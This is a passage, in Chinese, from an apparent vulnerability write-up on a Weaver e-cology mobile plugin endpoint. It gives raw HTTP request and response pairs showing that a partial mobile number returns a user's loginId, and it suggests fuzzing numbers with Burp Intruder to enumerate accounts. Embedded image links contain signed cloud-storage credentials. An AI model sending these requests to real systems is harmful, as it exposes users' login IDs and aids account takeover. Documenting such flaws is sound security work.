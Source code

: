 当大于 1 时返回`{"status":"0"}` ，如下。

```text
GET /mobile/plugin/changeUserInfo.jsp?type=getLoginid&mobile=1 HTTP/1.1
Host:
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

```text
HTTP/1.1 200 OK
Server: WVS
Cache-Control: private
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1
X-UA-Compatible: IE=8
Set-Cookie: ecology_JSessionid=aaazz3rlfOPGyh_GFNZly; path=/
Content-Type: application/json; charset=UTF-8
Content-Length: 16
Connection: close
Date: Fri, 19 May 2023 01:42:50 GMT

{"status":"0"}


```

在这种情况下，是可以利用 BurpSuite 的 Intruder 做进一步模糊查询移动电话的。如下第二张图，存在一个包含 17 的移动电话，以及多个包含 18 的移动电话。

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/f8677a4a-4a80-4a1b-a542-6b1fd16f5c83/image-20230520113512246.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=183b3c8c60201b1d241368c676b57e83375cee15b127d73fcf42bde0a3c9fe27&X-Amz-SignedHeaders=host&x-id=GetObject)

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/be602e7d-6a39-4cd0-be11-834f05bf2827/image-20230520113701520.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=a988f046c6b214b054cd81405ee6aa4c0ddf31683e414a589b5589ddba7b20c6&X-Amz-SignedHeaders=host&x-id=GetObject)

当等于 1 时返回`{"status":"1"}` 以及`loginId`及其值，在这种情况下，我们就可以直接获取一个`loginId`。

```text
GET /mobile/plugin/changeUserInfo.jsp?type=getLoginid&mobile=1 HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: gzip, deflate
Connection: close


```

```text
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 19 May 2023 01:43:50 GMT
Content-Type: application/json; charset=UTF-8
Content-Length: 34
Connection: close
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1
X-UA-Compatible: IE=8
Expires: Thu, 01 Dec 1994 16:00:00 GMT
Set-Cookie: ecology_JSessionid=aaxctkRR1WUJ97SAqRRiy; path=/

{"loginId":"xsijr","status":"1"}
```